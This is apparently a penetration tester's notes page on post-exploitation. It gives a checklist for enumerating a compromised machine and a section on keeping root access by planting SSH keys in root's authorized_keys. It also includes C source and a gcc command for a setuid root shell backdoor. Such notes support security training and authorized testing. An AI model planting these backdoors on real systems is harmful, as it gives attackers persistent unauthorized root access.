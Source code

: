 # Guide

1. Secure foothold within the machine, see [[Securing Access]]
2. List all applications on the systems and check for known vulnerabilities.
3. Search for important files which may grant more access, see [[Valuable Files]]
4. Search for important information within running or interesting applications, especially the application used to gain access, e.g. vulnerable database and its configuration files Privilege Escalation
5. Search and document all users
6. See [[4. Post Exploitation/Privilege Escalation/Windows/1. Guide|Windows]] or [[4. Post Exploitation/Privilege Escalation/Linux/1. Guide|Linux]] Guide

## Getting Root Access


## Using Root Access

How to use the root access to gain access

### SSH Keys

Create SSH keys for the Root account then just connect.
Input ssh key into .ssh, `.ssh/authorized_keys`

### File Creation to Open a Shell

Create a file using the root privilege, or enable its privileges:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
	setreuid(0, 0);
	execve("/bin/sh", NULL, NULL); 
}
```

Compile the file:

```
gcc -o shell /opt/shells/setuid/exec.c
```
